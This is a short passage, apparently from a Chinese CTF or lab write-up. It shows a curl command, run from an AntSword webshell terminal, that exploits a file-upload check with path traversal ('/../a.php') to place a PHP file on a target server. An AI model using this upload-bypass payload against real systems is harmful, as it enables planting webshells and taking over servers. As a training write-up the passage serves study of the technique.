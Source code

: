 利用Postman生成curl命令，实际使用时删除postman生成的file参数中a.php的前缀

![image-20250318214849558](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202503182148674.png)

在蚁剑终端执行curl命令发送post请求

```bash
curl --location --request POST 'http://10.244.80.225' --form 'file=@"a.php"' --form 'hello="a.php"' --form 'file[1]="111"' --form 'file[2]="222"' --form 'file[0]="/../a.php"'
```

![image-20250318214915735](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202503182149871.png)

参考

https://www.cnblogs.com/CabbageJun/p/15953184.html

https://blog.csdn.net/qq_43756333/article/details/107386403
